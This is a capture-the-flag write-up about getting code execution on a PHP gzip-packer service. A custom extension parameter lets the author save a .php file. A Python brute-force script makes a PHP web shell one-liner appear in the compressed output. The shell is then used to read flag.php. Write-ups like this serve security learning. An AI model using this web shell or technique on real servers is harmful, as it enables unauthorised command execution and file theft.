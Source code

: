 The given link brought me to a php website, which takes a URL, downloads the file from the URL, compresses it with gunzip on the highest compression level, stores it on the Server and lets you download it. 
[someimage]
The first thing that came to my mind was if I could maybe use the `php://` URI to let the server compress `flag.php` and send it to me, but at closer inspection of the source code I saw, that only URLs with `http://` or `https://` at the start are allowed:
```php
if (substr( $url, 0, 7 ) !== "http://" && substr( $url, 0, 8 ) !== "https://") {
	die("Invalid url!");
}
```
While this is bad news, I also found a unmentioned additional POST-parameter being used.
```php
$ext = ".txt.gz";

if (isset($_POST["ext"])) {
	if (preg_match("/(\[.a-z0-9\]{3,10})/", $_POST["ext"], $matches) == 1) {
		$ext = $matches[0];
	}
}
```
It looks like you can control the extension of the saved file on the server with the parameter as long as the extension matches the regex.
The php-server and the file upload already looked suspiciously like custom php-code execution on the server, but the addition of this blatantly obvious POST-parameter to control the file extension was a pretty obvious marker that I should take a closer look at the gunzip algorithm, to find a file which compressed gave valid php code I could execute on the server.

Finding the Payload
===

At first glance, this seems impossible, because of one of the core aspects of compression. Most of the compression relies on the repetetive nature of english (or any other modern language) and the elimination of these repetetive patterns. It seems like an impossible task to try to get functional php code as an output, because it is nearly as repetetive as the english language and as that would never be the output of gunzip, because the repetetive parts of it would have been replaced by backpointers to old parts of the original file. In fact, this is very much true for most php code, but at the same time php makes it really easy to execute shell code with backticks(\`) so oneliners like this:
```php
<?=`$_GET[1]`?>
```
are actually possible.
This one just gets the content of the GET-parameter `1`, executes it in a shell and prints the output.
As you can see, this piece of code does not repeat itself anywhere
With that in mind, I started to think about creating the real payload. My first idea was to just decompress the original php oneliner and send the result of it to the server. After trying this, I noticed two problems with my approach. First, Gzip was not able do decompress my file, because it had the wrong format and did not fit the Gzip standard, and second, the server prepends the string `'----------- CREATED WITH GZIP PACKER V0.1 -------------------` to the data, which would completely change the output of the original payload.

My second idea was to just bruteforce the payload by compressing the string from the server + random bytes and hope that the php shell will show up in one of the compressed outputs, but after I tried bruteforcing just the first 4 of the 15 characters with a little python script and it took over 20 minutes I thought about how long it would take for 15 characters and gave up on that idea too.

After some digging into the theory of the deflate algorithm and the format of it, I found out, that it uses a dynamic huffman table for most of the blocks, which means that the algorithm creates a unique bit-code for every character, where the length is based on the frequency of the character in the original data. That means, the more frequently appearing characters in the original data have a short code and the characters less frequently appearing have longer codes so they take more space in the compressed data. 

Luckily that means, that when the data is nearly random, every character is appearing in nearly the same frequency and the codes all have the same length of 8 bits, the normal length of a byte/character in data. 

My idea was to first create a bunch random data with the string from the server in front of it and check if the huffman codes of most of the characters have a length of 8 bits and match valid ascii codes, but after some trying to build a reliable check for this, I noticed it is much easier to just compress a bunch of random bytes and overwrite some of the compressed bytes with my own payload, test the new compressed file by decompressing and compressing it again and then check wether the payload is still in the data or not ( I used `gzip -9 -dc file.gz > file 2> /dev/null` because otherwise `gzip` would not write the output into the file and spam the terminal with errors because the crc32 checksum at the end does not fit the decompressed data):
```py
def createFile(payload):

	with open('file', 'wb') as f:
		out = b'----------- CREATED WITH GZIP PACKER V0.1 -------------------\\n' + b'abcdefg'\*50 + os.urandom(8192)

		out = out.replace(b'<', b'').replace(b'>', b'') # < and > get replaced with &lt and &gt by the server which could change the output of the compression so I cut them out

		f.write(out)

	# zip file
	os.system('gzip -9 -fn file')

	offset = random.randint(300, 600)
	with open('file.gz', 'rb') as f:
		data = f.read()
		data = data[:offset] + payload + data[offset+len(payload):]

	with open('file.gz', 'wb') as f:
		f.write(data)


def checkForWorkingFile(payload):

	os.system('gzip -9 -fdc file.gz > file 2> /dev/null')
	os.system('gzip -9 -fn file')

	# check if oneliner exists in compressed file

	with open('file.gz', 'rb') as f:
		data = f.read()
		if payload in data:
			print('sucess!')
			return True

	return False


def main():

	payload = b'<?=`$_GET[1]`?>'

	while 1:
		createFile(payload)
		if checkForWorkingFile(payload):
			break

	os.system("gzip -9f -d file.gz")

	with open('file', 'rb') as f:
		data = f.read()
	with open('file', 'wb') as f:
		f.write(data[63:]) # cut out the prefix from the server

main()
```
Because it sometimes does not work, I looped the whole process until the check succeeds, which is the case in most tries.
Finally, I just decompressed the file and removed the prefix at the start, because the server will append it itself, uploaded the file to the server, and set the `ext` POST-parameter to `.php` in the request through burp suite. The Server returned a link to `output.php` , which I could request with the GET-parameter  `1` set to a bash command to give me the output of this command.

I used the command `base64 ../../flag.php` to give me the base64 encoded verson of the flag.php file, which I just decoded to get the flag:

`CSCG{I_h0pe_y0u_f0und_th3_sh0rt_tags_(btw_idea_was_from_CVE2020_11060)}`